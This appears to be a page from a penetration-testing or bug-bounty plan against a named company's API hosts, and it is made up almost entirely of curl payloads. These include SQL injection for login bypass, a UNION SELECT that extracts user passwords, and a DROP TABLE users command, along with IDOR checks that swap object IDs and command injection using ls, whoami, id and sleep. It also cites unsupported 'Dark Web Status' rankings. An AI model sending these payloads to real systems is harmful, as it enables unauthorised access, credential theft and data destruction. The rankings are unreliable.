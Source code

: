 ### **Phase 3: Focus on High-Value Vulnerabilities**
**New Vulnerability Discovery**

#### **Priority 1: SQL Injection**
**Dark Web Status**: #2 most common vulnerability
**Testing Strategy**:
```bash
# Authentication bypass
curl "https://api.aixblock.io/api/v1/auth/login" \
  -d "username=admin&password=' OR 1=1--"

# Data extraction
curl "https://api.aixblock.io/api/v1/users?id=' UNION SELECT username,password FROM users--"

# Command execution
curl "https://api.aixblock.io/api/v1/query?sql='; DROP TABLE users; --"
```

#### **Priority 2: IDOR (Insecure Direct Object References)**
**Dark Web Status**: #1 most common vulnerability
**Testing Strategy**:
```bash
# Test object ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/projects/123" \
  -H "Authorization: Bearer <token>"

# Change project_id from 123 to 124
curl -X GET "https://api.aixblock.io/api/v1/projects/124" \
  -H "Authorization: Bearer <token>"

# Test user ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/users/1" \
  -H "Authorization: Bearer <token>"

# Change user_id from 1 to 2
curl -X GET "https://api.aixblock.io/api/v1/users/2" \
  -H "Authorization: Bearer <token>"
```

#### **Priority 3: Command Injection**
**Dark Web Status**: Critical for RCE attacks
**Testing Strategy**:
```bash
# Basic command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; ls -la"
curl "https://api.aixblock.io/api/v1/run?script=& whoami"
curl "https://workflow.aixblock.io/api/v1/process?input=` id `"

# Blind command injection
curl "https://workflow.aixblock.io/api/v1/execute?cmd=; sleep 5"
curl "https://api.aixblock.io/api/v1/run?script=& ping -c 5 127.0.0.1"
curl "https://workflow.aixblock.io/api/v1/process?input=` sleep 5 `"
```
